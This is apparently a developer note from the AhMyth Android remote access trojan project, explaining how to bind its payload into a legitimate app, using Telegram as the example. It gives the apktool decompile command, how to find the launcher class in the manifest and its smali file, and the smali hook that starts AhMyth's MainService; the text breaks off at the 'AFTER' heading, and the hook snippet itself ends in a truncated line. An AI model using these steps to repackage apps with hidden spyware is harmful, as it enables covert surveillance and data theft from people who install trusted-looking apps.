 Updating AhMyth
===============

This section will further describe how AhMyth should operate
in terms of Binding with an Original APK when using the "On Launch" method.

I needed a complex APK for this so I used Telegram, which was obtained from
apkpure.com

DISSECTING TELEGRAM
====================

Decompiling
-----------
Decompiling the Telegram.apk was easy, by using a copy of the modified "apktool.jar" file that AhMyth uses, all I had to do was run a simple CLI (Command Line Interface) command;

    $ java -jar apktool d Telegram.apk -f

Running this command Decompiled the Telegram APK into a readable state, once this was done I was able to access the APK file's "AndroidManifest.xml" file.



Finding Launcher Activity from the AndroidManifest
==================================================
So the next thing I did after accessing the "AndroidManifest.xml" file, was search for the launcher activity. the way this was done was by first searching for `<application` attribute in the Manifest file.

Once the `<application` attribute was found, all I had to do was search for the class name attribute, which is usually 1 of the following;

- `android:name"`
- `android:targetActivity="`

Upon locating the `android:name="` attribute, which is 1 of the 2 class name attributes mentioned above, the path to the Hookable launcher activity was sectioned next to it wrapped in Quotes.

A an example of what I mean is below;

    <application android:name="org.telegram.messenger.ApplicationLoader"


Fetching the Launcher Activity
==============================
Next all I had to do was;

- Copy the `org.telegram.messenger.ApplicationLauncher` code from the Manifest file

- cd into the Decompiled Telegram APK folder

- Paste the copied text into a terminal

- Change the `.` symbols to `/` symbols

- Add the `.smali` attribute to the end of "ApplicationLoader". 

Once I had done that quickly, I then added the `find -name` syntax command, and ran it to locate the Hookable Launcher Activity smali file.

The full command used to locate the Hookable Launcher Activity smali file.
    
    find -name "org/telegram/messenger/ApplicationLoader.smali"


Injecting the payload hook
==========================
Once the Hookable Launcher Activity smali file was located, I then copied the text output printed in the terminal from running the command above, and used VSCode to open by using the command;

    code ./smali/org/telegram/messenger/ApplicationLoader.smali

Once opened, I then used the VSCode's "find" tool to locate two types of Launcher methods, the methods I was looking for are the following below;

1. `;->onCreate(Landroid/is/Bundle;)V`
2. `;->OnCreate()V`

Upon locating the 2nd method mention above, all I had to do from there was inject AhMyth's payload hook.

Below you will see two pieces of coding, the 1st piece is the AhMyth payload hook BEFORE it's injected into Telegram's Launcher Activity smali file, 
and the 2nd one is the AhMyth payload hook AFTER it was injected into the telegram.apk Launcher Activity smali file.

BEFORE
------
```
new-instance v0, Landroid/content/Intent;

const-class v1, Lahmyth/mine/king/ahmyth/MainService;

invoke-direct {v0, p0, v1}, Landroid/content/Intent;-><init>(Landroid/content/Context;Ljava/lang/Class;)V

invoke-virtual {p0, v0}, L';
```

AFTER
-----
